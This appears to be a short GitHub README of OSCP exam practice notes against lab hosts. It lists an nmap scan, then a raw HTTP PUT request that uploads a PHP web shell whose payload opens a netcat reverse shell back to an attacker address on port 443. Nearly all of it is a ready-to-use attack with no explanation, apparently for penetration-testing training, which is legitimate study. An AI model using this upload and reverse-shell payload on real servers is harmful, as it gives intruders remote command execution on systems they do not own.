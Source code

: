 # OSCP_Practice

nmap -SV -p- 192.168.1.107<br/>

use burp to inves by<br/>

====================================
PUT /test/shell.php HTTP/1.1 <br/>
Host: 192.168.1.108<br/>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0<br/>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8<br/>
Accept-Language: en-US,en;q=0.5<br/>
Accept-Encoding: gzip, deflate<br/>
Connection: close<br/>
Upgrade-Insecure-Requests: 1<br/>
Content-Length: 11<br/>

<?php echo shell_exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.43.2 443 >/tmp/f"); ?><br/>
====================================
